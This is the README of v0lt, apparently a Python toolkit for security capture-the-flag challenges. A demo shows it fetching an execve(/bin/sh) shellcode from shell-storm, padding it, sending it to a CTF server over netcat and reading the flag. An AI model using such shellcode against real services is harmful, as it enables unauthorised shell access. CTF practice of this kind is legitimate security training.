 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

[![Rawsec's CyberSecurity Inventory](http://list.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat-square.svg)](http://list.rawsec.ml/tools.html#v0lt)

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be
more flexible, that's why.
Nothing to do with Gallopsled. It's a toy toolkit, with small but
specific utils only.

This project is not maintained anymore, since the utils themselves are small enough to work almost all the time without the need of maintaining anything. Feel free to submit PRs if you want however :)

## Requirements and Installation
#### Dependencies:
* Libmagic
* Python3
  * BeautifulSoup
  * Requests
  * filemagic
  * hexdump
  * passlib

#### Installation:
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git
cd v0lt
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

## Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellCrafter(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

...<SNIPPED>...
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
...<SNIPPED>...

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
## Implemented:
* Crypto
    * Base64
    * Ceasar shift
    * Hashing functions (SHA, MD5)
    * Bits manipulations (XOR, inverse XOR)
    * Usual conversions (bytes, strings, hex)
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing (Dictionnary, custom word)

* Shellcodes
    * Shellcode selection and download from Shell-storm repo
    * Shellcode formater
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support
    * Netcat
    * Telnet

* Solving
    * Instruction Counting bruteforcer

And more
Examples are available ![here](./examples/)

